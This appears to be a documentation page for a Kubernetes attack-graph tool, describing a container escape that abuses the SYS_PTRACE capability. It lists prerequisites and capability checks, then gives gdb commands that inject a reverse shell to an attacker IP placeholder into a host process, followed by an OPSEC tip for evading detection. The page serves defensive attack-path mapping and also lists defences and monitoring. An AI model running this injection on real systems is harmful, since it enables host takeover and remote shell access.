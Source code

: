 # CE_SYS_PTRACE

Given the requisite capabilities, abuse the legitimate OS debugging mechanisms to escape the container via attaching to a node process.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

The `SYS_PTRACE` capability, which allows the use of `ptrace()`. This system call allows a process to monitor and control the execution of another process. 

## Prerequisites

To perform this attack, the container must be started with the option `--pid=host`, which enables the sharing of the PID address space between the container and the host operating system, allowing the container process to see every other process running on the host. And the container needs to be granted `SYS_PTRACE` and `SYS_ADMIN` capabilities. 

See the [example pod spec](../../test/setup/test-cluster/attacks/CE_SYS_PTRACE.yaml).

## Checks

From within a running container, determine whether it is running with the required capabilities:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff:	00000000a80425fb

# Decode the capabilities (on current box or offline) and check for CAP_SYS_PTRACE and CAP_SYS_ADMIN
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=00000000a80425fb | grep cap_sys_admin
capsh --decode=00000000a80425fb | grep cap_sys_ptrace
```

## Exploitation

Install a debugger into the container:

```bash
apt update && apt install gdb
```
Find a host process to target:

```bash
ps -ef # select a PID
```

Attach to the process and inject a shell command:

```bash
gdb -p <PID>
call (void)system("bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1'")
```

## OPSEC Considerations

Directly installing debugging tools makes the attack easy, but provides easy detections for defenders. Use a custom script to inject into the target process to raise the bar for detection.

## Defences

+ Implement least privilege
+ Avoid running privileged pods.

## Monitoring

+ Monitor for GDB (or other debugging tools) installation. 
+ Detect invocation of ptrace() from within a container.

## Calculation

[EscapeSysPtrace](../../pkg/kubehound/graph/edge/escape_sys_ptrace.go)

## References:

+ [Container Escape: All You Need is Cap (Capabilities)](https://www.cybereason.com/blog/container-escape-all-you-need-is-cap-capabilities?hs_amp=true)

